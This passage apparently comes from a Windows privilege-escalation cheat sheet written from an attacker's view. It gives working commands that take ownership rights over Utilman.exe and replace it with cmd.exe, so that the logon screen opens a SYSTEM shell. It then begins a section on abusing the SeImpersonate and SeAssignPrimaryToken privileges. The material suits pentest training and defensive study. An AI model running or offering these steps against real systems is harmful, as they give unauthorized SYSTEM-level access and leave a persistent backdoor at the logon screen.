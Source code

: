 Notice that being the owner of a file doesn't necessarily mean that you have privileges over it

Give your user full permissions over utilman.exe you can use the following command:

```bash
PS C:\Windows\system32> icacls C:\Windows\System32\Utilman.exe /grant "$($env:username):F"

processed file: C:\Windows\System32\Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

Replace `Utilman.exe`

```bash
PS C:\Windows\system32> copy .\Utilman.exe .\Utilman.exe~
PS C:\Windows\system32> copy cmd.exe utilman.exe
```

Go back to windows logon screen, open utilman to start cmd with **SYSTEM**

![](../../attachment/8f78bdb708e2ca551ebf9655f9d995cb.png)

### SeImpersonate / SeAssignPrimaryToken

As attackers, if we manage to take control of a process with **SeImpersonate** or **SeAssignPrimaryToken** privileges, we can impersonate any user connecting and authenticating to that process.
